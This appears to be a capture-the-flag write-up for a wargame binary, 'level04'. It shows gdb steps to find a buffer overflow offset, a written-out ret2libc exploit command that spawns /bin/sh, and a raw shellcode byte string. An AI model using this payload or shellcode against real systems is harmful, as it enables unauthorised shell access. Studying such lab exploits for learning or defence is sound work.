 forked process so for gdb: set follow-fork-mode child
because the gets() is in child

we can now search pattern to find the buffer overflow
(https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

overflow at offset 156

(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) p &exit
$2 = (<text variable, no debug info> *) 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec

exploit will be 156 padding + system() address + return address of system + /bin/sh address


(python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat -) | ./level04

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80